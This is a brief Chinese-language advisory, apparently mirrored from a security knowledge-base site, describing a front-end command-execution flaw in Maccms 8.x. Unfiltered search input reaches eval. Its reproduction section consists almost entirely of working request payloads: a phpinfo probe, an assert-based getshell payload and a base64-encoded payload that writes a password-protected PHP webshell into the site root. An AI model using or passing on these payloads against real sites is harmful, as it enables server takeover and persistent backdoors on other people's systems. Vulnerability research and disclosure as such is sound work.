


# Maccms 8.x(苹果cms)命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3011](https://www.zhihuifly.com/t/topic/3011)

# Maccms 8.x(苹果cms)命令执行漏洞

## 一、漏洞简介

搜索页面搜索参数过滤不严
导致直接eval执行PHP语句，前台命令执行可getshell

## 二、漏洞影响

Maccms 8.x

## 三、复现过程

payload：

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A} 
```



getshell payload（a）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

POST `a=phpinfo()` 
```



写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A} 
```